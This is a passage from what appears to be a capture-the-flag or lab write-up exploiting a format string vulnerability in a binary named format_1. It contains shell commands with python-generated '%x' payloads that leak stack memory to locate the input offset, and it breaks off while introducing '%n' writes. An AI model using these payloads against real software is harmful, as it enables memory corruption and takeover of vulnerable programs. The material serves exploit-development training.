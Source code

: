 The input parameter of printf() is stored on the stack, but it's not in the same stack frame. 
It's obvious that there is a format string vulnerability as seen the output below:

```
$ ./format_1 aaaaaaaaaaaa
aaaaaaaaaaaa
$ ./format_1 %d
47
```

If the string contains a format specifier, then argument is fetched from stack. 
Let's find the offset by increasing the number of inputs until we see our input.

```
$ ./format_1 $(python -c 'print "AAAAAA"+"%x|"*200' ) | grep 41414141
AAAAAA2f|804a000|80484e2|2|ffffcf74|ffffced8|804848e|ffffd148|f7ffd000|804849b|f7fbc000|8048490|0|0|f7e2bad3|2|ffffcf74|ffffcf80|f7feae6a|2|ffffcf74|ffffcf14|804a018|804822c|f7fbc000|0|0|0|1e9576cb|247d92db|0|0|0|2|8048350|0|f7ff0660|f7e2b9e9|f7ffd000|2|8048350|0|8048371|8048475|2|ffffcf74|8048490|8048500|f7feb300|ffffcf6c|1c|2|ffffd13d|ffffd148|0|ffffd3a7|ffffd3b2|ffffd3c4|ffffd3da|ffffd3eb|ffffd418|ffffd435|ffffd444|ffffd479|ffffd484|ffffd494|ffffd4ab|ffffd4bc|ffffd4ce|ffffd512|ffffd546|ffffd575|ffffd57c|ffffda9d|ffffdad7|ffffdb0b|ffffdb3b|ffffdb8d|ffffdbc0|ffffdc04|ffffdc62|ffffdc79|ffffdc8b|ffffdcac|ffffdcb5|ffffdcd3|ffffdce7|ffffdcfe|ffffdd0f|ffffdd1e|ffffdd54|ffffdd66|ffffdd83|ffffdd95|ffffddaf|ffffddbe|ffffddcb|ffffddd3|ffffdde2|ffffde0e|ffffde18|ffffde32|ffffde81|ffffde93|ffffdecf|ffffdeef|ffffdef9|ffffdf0e|ffffdf2d|ffffdf38|ffffdf52|ffffdf65|ffffdf87|ffffdfa8|ffffdfc1|ffffdfe0|0|20|f7fdacd0|21|f7fda000|10|1f8bfbff|6|1000|11|64|3|8048034|4|20|5|9|7|f7fdc000|8|0|9|8048350|b|3e8|c|3e8|d|3e8|e|3e8|17|0|19|ffffd11b|1f|ffffdfed|f|ffffd12b|0|0|a000000|5bad0c9a|5b9a7084|fa07f5bd|6973cada|363836|0|0|0|662f2e00|616d726f|315f74===>|41414141| <===78254141|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|
```

Okay, whether I changed number of %x format specifier, it was not helpful. So I used following to find right value.

```
$ ./format_1 $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"+"%x|"*181' )
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH2f|804a000|80484e2|2|ffffcf74|ffffced8|804848e|ffffd158|f7ffd000|804849b|f7fbc000|8048490|0|0|f7e2bad3|2|ffffcf74|ffffcf80|f7feae6a|2|ffffcf74|ffffcf14|804a018|804822c|f7fbc000|0|0|0|a1424fd9|9baaabc9|0|0|0|2|8048350|0|f7ff0660|f7e2b9e9|f7ffd000|2|8048350|0|8048371|8048475|2|ffffcf74|8048490|8048500|f7feb300|ffffcf6c|1c|2|ffffd14d|ffffd158|0|ffffd398|ffffd3a3|ffffd3b5|ffffd3cb|ffffd3dc|ffffd409|ffffd426|ffffd435|ffffd46a|ffffd475|ffffd485|ffffd49c|ffffd4ad|ffffd4bf|ffffd503|ffffd537|ffffd566|ffffd56d|ffffda8e|ffffdac8|ffffdafc|ffffdb2c|ffffdb7e|ffffdbb1|ffffdbf5|ffffdc53|ffffdc6a|ffffdc7c|ffffdc9d|ffffdca6|ffffdcc4|ffffdcd8|ffffdcef|ffffdd00|ffffdd0f|ffffdd45|ffffdd57|ffffdd74|ffffdd86|ffffdda0|ffffddaf|ffffddbc|ffffddc4|ffffddd3|ffffddff|ffffde09|ffffde23|ffffde72|ffffde84|ffffdec0|ffffdee0|ffffdeea|ffffdeff|ffffdf1e|ffffdf29|ffffdf43|ffffdf56|ffffdf78|ffffdf99|ffffdfb2|ffffdfd1|ffffdfe0|0|20|f7fdacd0|21|f7fda000|10|1f8bfbff|6|1000|11|64|3|8048034|4|20|5|9|7|f7fdc000|8|0|9|8048350|b|3e8|c|3e8|d|3e8|e|3e8|17|0|19|ffffd12b|1f|ffffdfed|f|ffffd13b|0|0|0|0|0|a000000|c782b05e|f9132f6f|c100e28a|697e9cad|363836|0|0|0|662f2e00|616d726f|315f74|41414141|42424242|43434343|44444444|45454545|46464646|47474747|48484848|
```

Now, let's use %n format specifier instead of %x to write. It is used to get the number of characters before **%n**.
Following info is from printf(3)'s manual page.

